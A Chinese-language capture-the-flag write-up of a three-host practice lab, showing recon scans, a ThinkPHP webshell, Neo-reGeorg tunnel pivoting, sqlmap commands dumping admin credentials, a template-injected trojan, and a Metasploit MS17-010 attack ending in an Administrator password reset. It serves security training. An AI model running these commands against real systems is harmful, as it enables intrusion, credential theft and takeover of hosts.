# CFS三层靶机

靶机地址：http://cloud-pentest.cn/index.html#;

网络拓扑图：





工具准备:

- nmap
- fscan
- ThinkPHP_getshell-v2.exe ThinkPHP漏洞利用工具
- 蚁剑
- proxychains4
- sqlmap
- Neo-regeorg

攻击机信息：

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.106.128  netmask 255.255.255.0  broadcast 192.168.106.255
        inet6 fe80::20c:29ff:feab:94e2  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:ab:94:e2  txqueuelen 1000  (Ethernet)
        RX packets 6501061  bytes 3322102671 (3.0 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4268971  bytes 583608839 (556.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8345  bytes 28506889 (27.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8345  bytes 28506889 (27.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.8.0.170  netmask 255.255.255.255  destination 10.8.0.169
        inet6 fe80::2fd9:634a:9163:51ff  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 38  bytes 4155 (4.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2079  bytes 79733 (77.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

# 渗透流程：

## 172.25.0.13

### nmap

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap -sn 172.25.0.1/24
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-30 00:54 CST
Nmap scan report for 172.25.0.1
Host is up (0.085s latency).
Nmap scan report for 172.25.0.13
Host is up (0.16s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 11.01 seconds
```

### fscan



我们可以看到靶机172.25.0.13存活，并开放了22，80，21等端口。

访问下网站：



我们发现是Thinkphp5.x框架，我们可以尝试相关exp，下面我们发现确实存在漏洞。



直接掏出工具扫一波，存在漏洞。



利用该工具写入shell，之后使用蚁剑连接。



访问php，验证上传shell成功。


蚁剑连接成功了



成功找到第一个flag。



先信息收集一波

```
查内核
uname -an
查ip
ifconfig
ip a
查路由
route

```









我们发现当前靶机还处于192.168.22的网段下，下面我们建立代理。

这里我们使用neo-regeorg，使用的主要命令如下：



首先生成通道文件，key设置为password，之后将tunnel.php上传到网站的根目录下，与此同时我们的攻击机与通道文件建立sock5代理连接。

```
┌──(root㉿kali)-[/home/tom/桌面/tools/Neo-reGeorg-5.2.0]
└─# python neoreg.py generate -k password


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.go
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

┌──(root㉿kali)-[/home/tom/桌面/tools/Neo-reGeorg-5.2.0]
└─# python3 neoreg.py -k password  -u http://172.25.0.13/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://172.25.0.13/tunnel.php
+------------------------------------------------------------------------+
```

上传tunnel.php到网站根目录，



建立成功后，我们上传fscan_amd64到该靶机，进行网段扫描。

```
chmod 777 fscan_amd64
 
./fscan_amd64
```

扫到192.168.22.22。

之后设置火狐浏览器代理，使用socks5进行连接。



## 192.168.22.22

访问成功。



查看/robots.txt



根据提示可以找到登录界面http://192.168.22.22/index.php?r=admini/public/login



尝试登陆后，发现该接口可能存在sql注入漏洞，使用sqlmap进行测试。

```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch --dbs --proxy=socks5://127.0.0.1:1080
```



```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms --tables  --proxy=socks5://127.0.0.1:1080
```



```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin --columns  --proxy=socks5://127.0.0.1:1080
```



```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin -C username,password --dump --proxy=socks5://127.0.0.1:1080
```



成功登录。



模板里面可以插入一句话木马。



访问页面，确认马url的路径



蚁剑设置sock5代理



尝试连接



信息搜集，我们发现该靶机还处于192.168.33的网段。



上传neo到第一台靶机中，并将生成的tunnel.php上传到192.168.22.22靶机中。



<br/>



<br/>



可以先查看一下172.25.0.13靶机能不能用python，有没有python环境



然后开启代理建立连接。

```
python neoreg.py -k password -u http://192.168.22.22/tunnel.php -l 0.0.0.0 -p 2001
```



## 192.168.33.33

我们在攻击机使用nmap扫描33网段 。

```
proxychains4 nmap -Pn -sT 192.168.33.0/24
```

这里使用proxychains4需要配置/etc/proxychains.conf，但是我这里一直出问题。

发现这是开放着445、3389端口的Windows系统



利用永恒之蓝漏洞。

```
msfconsole 
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.33.33
options
run
```



```
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net user Administrator 123
```